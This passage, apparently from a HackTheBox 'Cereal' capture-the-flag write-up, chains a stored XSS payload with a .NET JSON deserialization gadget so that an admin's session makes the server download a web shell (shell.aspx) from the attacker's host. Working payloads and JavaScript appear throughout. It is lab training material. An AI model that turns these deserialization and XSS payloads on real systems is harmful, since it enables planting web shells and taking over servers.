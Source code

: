 So we adapt our payload to download a file in our file system

The path is where we found earlier on the web disclousure information on the server

```
{"JSON": "{'$type':'Cereal.DownloadHelper, Cereal','URL':'"http://10.10.14.20/shell.aspx"','FilePath': 'C:\\\\inetpub\\\\source\\\\uploads\\\\shell.aspx'}"}
```

This payload need to be send as a JSON object to the server, then once we know that we have a admin looking at the XSS, we do a session riding and make it executes the payload and download the file on the server, so let's start it

The payload working is this:

```json
{
"RequestId":999,
"JSON": "{\"$type\":\"Cereal.DownloadHelper, Cereal\",\"URL\":\"http://10.10.14.20/shell.aspx\",\"FilePath\": \"C:\\\\inetpub\\\\source\\\\uploads\\\\shell.aspx\"}"
}
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-26-HackTheBox-Cereal/2021-09-26-HackTheBox-Cereal%2008:39:04.png)

We execute it, and now we just need to make the admin look at it, for that we will use a XMLHTTPRequest

```js
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://cereal.htb/requests/999");
xhr.setRequestHeader("Authorization", "Bearer JWT");
xhr.setRequestHeader("Content-Type", "application/json");
xhr.send();
```

The script will be like this one

```json
{
"json":"{\"title\":\"[XSS](javascript: document.write%28%22<script>var xhr = new XMLHttpRequest;xhr.open%28'GET', 'https://cereal.htb/requests/999', true%29;xhr.setRequestHeader%28'Authorization','Bearer TOKEN !! '%29;xhr.send%28null%29</script>%22%29)\",\"flavor\":\"pizza\",\"color\":\"#FFF\",\"description\":\"test\"}"
}
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-26-HackTheBox-Cereal/2021-09-26-HackTheBox-Cereal%2008:54:43.png)

And after some moments, we get the connection on our python web server

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-26-HackTheBox-Cereal/2021-09-26-HackTheBox-Cereal%2009:02:24.png)

Ok, it's reaching me and trying to download it

And we see the page `https://source.cereal.htb/uploads/21098374243-shell.aspx`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-26-HackTheBox-Cereal/2021-09-26-HackTheBox-Cereal%2009:03:09.png)
